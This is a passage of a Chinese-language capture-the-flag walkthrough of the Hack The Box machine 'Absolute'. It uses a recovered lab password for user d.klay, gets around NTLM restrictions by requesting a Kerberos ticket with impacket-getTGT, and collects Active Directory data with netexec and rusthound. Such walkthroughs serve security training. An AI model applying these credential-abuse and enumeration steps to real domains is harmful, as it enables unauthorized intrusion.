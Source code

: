```
username: d.klay
password: Darkmoonsky248girl
```

使用 `d.klay` 账户进行枚举

```bash
kali@kali[~]$ netexec smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl'                                         
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
```

发现报错 `STATUS_ACCOUNT_RESTRICTION` 说明，该账户限制了不允许使用NTLM进行认证，只能使用 Kerberos 进行认证

我们申请一张该用户的 TGT，以用于后续操作
```bash
kali@kali[~]$ impacket-getTGT 'absolute.htb'/'d.klay':'Darkmoonsky248girl' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.klay.ccache
```

使用申请到的TGT再次尝试枚举服务，发现已经可以成功访问

```bash
kali@kali[~]$ export KRB5CCNAME=d.klay.ccache
kali@kali[~]$ netexec smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k                                      
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
```

使用该账户收集一份Bloodhound数据备用

```bash
kali@kali[~]$ export KRB5CCNAME=d.klay.ccache
kali@kali[~]$ rusthound -d 'absolute.htb' -u 'd.klay' -z -k -f dc.absolute.htb
---------------------------------------------------
Initializing RustHound at 13:00:22 on 03/27/25
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2025-03-27T20:00:22Z INFO  rusthound] Verbosity level: Info
[2025-03-27T20:00:23Z INFO  rusthound::ldap] Connected to ABSOLUTE.HTB Active Directory!
[2025-03-27T20:00:23Z INFO  rusthound::ldap] Starting data collection...
[2025-03-27T20:00:23Z INFO  rusthound::ldap] All data collected for NamingContext DC=absolute,DC=htb
[2025-03-27T20:00:23Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2025-03-27T20:00:23Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2025-03-27T20:00:23Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2025-03-27T20:00:23Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 18 users parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 63 groups parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 1 computers parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 1 ous parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 1 domains parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 2 gpos parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] 21 containers parsed!
[2025-03-27T20:00:23Z INFO  rusthound::json::maker] .//20250327130023_absolute-htb_rusthound.zip created!

RustHound Enumeration Completed at 13:00:23 on 03/27/25! Happy Graphing!
```
